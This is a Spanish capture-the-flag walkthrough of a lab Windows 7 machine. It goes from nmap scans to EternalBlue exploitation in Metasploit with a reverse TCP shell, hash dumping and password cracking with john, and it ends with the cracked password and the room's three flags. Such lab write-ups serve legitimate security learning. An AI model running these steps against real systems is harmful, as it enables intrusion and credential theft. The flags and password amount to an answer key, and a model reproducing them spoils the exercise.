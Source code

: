 ```yaml
---
title: Untitled
date: 2023-02-15
---
```


## Reconocimiento

Antes de comenzar comprobamos mediante [[ping]] que la máquina se encuentra activa, además en base al ttl ([[OS fingerprinting]]), podemos presuponer que se trata de una máquina **windows**.

Procedemos ahora a buscar puertos abiertos con [[nmap]]:

```bash
nmap -sS -p- --open --min-rate 5000 -n -Pn <ip>
```
```bash
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49158/tcp open  unknown
49159/tcp open  unknown
```

Vemos algunos puertos interesantes, así que procedemos con un escaneo más exahustivo:

```bash
nmap -sS -p135,139,445,3389,49152,49153,49154,49158,49159 -sCV -n -Pn <ip>
```
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
|_ssl-date: 2023-02-15T19:38:05+00:00; 0s from scanner time.
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h30m00s, deviation: 3h00m00s, median: 0s
|_nbstat: NetBIOS name: JON-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:df:b4:90:66:e7 (unknown)
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Jon-PC
|   NetBIOS computer name: JON-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-02-15T13:37:50-06:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-02-15T19:37:50
|_  start_date: 2023-02-15T19:28:53
```

Vemos que tenemos un servicio *samba*, que podría ser interesante. Para tratar de buscar posibles vulns, buscaremos en internet vulns para `Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)`. Encontrando que posiblemente sea vulnerable al [[EternalBlue]] (*MS17-010*). Para comprobarlo, utilizaremos de nuevo nmap:

```bash
nmap -sS -p445 --script vuln -n -Pn <ip>
```
```bash
[...]
Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

O bien:

```bash
nmap -p 445 --script=smb-vuln-ms17-010.nse <ip>
```
```bash
[...]
Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
[...]
```

## Explotación

En este punto nos encontramos ante un [[EternalBlue]], así que tenemos dos opciones, expllotarlo mediante [[metasploit]] o manualmente:

#### Metasploit

Comenzamos abriendo la consola de metasploit, y buscamos *ms17-10*:

```bash
msfconsole
```
```bash
search ms17-10
```

Y utilizaremos un exploit llamado `exploit/windows/smb/ms17_010_eternalblue`, así que selecccionamos dicha opción:

```bash
use <option>
```

Con `set` guardamos en `RHOST` la ip de la máquina objetivo y en `LHOST` la de nuestra máquina y ejecutamos `run`. En ocasiones puede ser que no funcione a la primera, en tal caso simplemente repite el proceso.

OPCIONAL - En caso de querer, *tryhackme* nos recomienda que ejecutemos antes del run, `set payload windows/x64/shell/reverse_tcp`, esto es para que luego tengamos que realizar un tratamiento de la tty para migrar una shell normal a una de *meterpreter*.

En este caso simplemente debemos pulsar CTL+Z para poner la sesión en segundo plano y seguidamente, utilizar el exploit `post/multi/manage/shell_to_meterpreter`. Simplemente cambiamos el `LHOST` y `session` con `set`, asignándo nuestra ip y el id de sesión (podemos verlo con `sessions -l`). Si no funciona tocará repetir los pasos anteriores, sin embargo, en caso de éxito tendríamos una shell con mayor funcionalidad y estabilidad. Una vez completado volvemos a la sesion con `sessions <session id>`.

#### Manualmente

to do

## Escalada de privilegios

En caso de tener éxito, ya tendríamos una shell con máximos privilegios, tanto con metasploit como si lo hemos hecho manual (es lo bueno del eternalblue):

```bash
C:\Windows\system32>whoami
whoami
nt authority\system
```

## Obteniendo y crackeando los hashes

#### Con meterpreter (metasploit)

Una vez tenemos la sesión de meterpreter, podemos obtener los hashes con `hashdump`:

```bash
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

En este punto podríamos tratar de crackear los hashes con [[john]]:

```bash
john --format=nt -w=/usr/share/wordlists/rockyou.txt hashes.txt
```
```bash
                 (Administrator)     
alqfna22         (Jon)
```

Como vemos obtenemos las credenciales del usuario `Jon:alqfna22`.

En este punto, podemos spawnear una shell de meterpreter con `shell`, y la primera flag se encuentra en `C:\` (`flag{access_the_machine}`), la segunda en `C:\Windows\System32\config` (`flag{sam_database_elevated_access}`), y la tercera en `C:\Users\Jon\Documents` (`flag{admin_documents_can_be_valuable}`).